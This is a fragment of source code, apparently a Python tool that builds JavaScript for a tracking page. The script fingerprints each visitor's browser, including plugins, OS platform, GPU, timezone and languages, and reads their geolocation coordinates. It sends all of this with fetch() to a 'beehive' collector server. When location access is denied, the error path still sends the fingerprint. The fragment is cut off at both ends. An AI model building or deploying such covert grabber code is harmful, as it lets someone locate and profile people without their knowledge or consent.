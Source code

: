 ```python

{

plugin_names.push(navigator.plugins[i].name)

}

  

//attempt seperate OS check (navigator.platform provides the user's OS even if user agent is faked!)

if (window.navigator.platform.indexOf("Win") != -1) {

platform = "Windows";

} else if (window.navigator.platform.indexOf("Mac") != -1) {

platform = "Mac";

} else if (window.navigator.platform.indexOf("Linux") != -1) {

platform = "Linux";

} else {

platform = "Unknown"

}

  

//coordinate grabber success and fail functions (the information is passed to the flask server in these functions)

function success(pos) {

const lat = pos.coords.latitude;

const long = pos.coords.longitude;

const acc = pos.coords.accuracy;

send = fetch(`http://'''+beehive_IP+''':'''+str(beehive_port)+'''/collector?code='''+str(code)+'''&lat=${lat}&long=${long}&acc=${acc}&IP=${IP}&userAgent=${userAgent}&languages=${languages}&user_time=${user_time}&timezone=${timezone}&plugin_names=${plugin_names}&GPU_info=${GPU_info}&platform=${platform}`);

}

  

function error(err) {

send = fetch(`http://'''+beehive_IP+''':'''+str(beehive_port)+'''/collector?code='''+str(code)+'''&lat=NA&long=NA&acc=NA&IP=${IP}&userAgent=${userAgent}&languages=${languages}&user_time=${user_time}&timezone=${timezone}&plugin_names=${plugin_names}&GPU_info=${GPU_info}&platform=${platform}`);

}

  

const options = {
```